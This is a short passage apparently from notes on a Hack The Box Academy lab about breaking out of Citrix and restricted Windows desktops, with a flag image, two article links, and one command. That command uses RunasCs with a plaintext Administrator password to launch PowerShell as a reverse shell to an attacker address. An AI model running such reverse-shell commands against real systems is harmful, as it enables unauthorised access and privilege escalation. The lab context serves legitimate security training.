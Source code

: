 ![Image](https://academy.hackthebox.com/storage/modules/67/flag.png)

Note: Wait for 5 minutes after spawning the target. Disregard the licensing message.
#### Additional resources worth checking:

- [Breaking out of Citrix and other Restricted Desktop environments](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/)
- [Breaking out of Windows Environments](https://node-security.com/posts/breaking-out-of-windows-environments/)


```c
.\RunasCs.exe Administrator Th1s889Rabb!t powershell.exe -r 10.10.14.17:443
```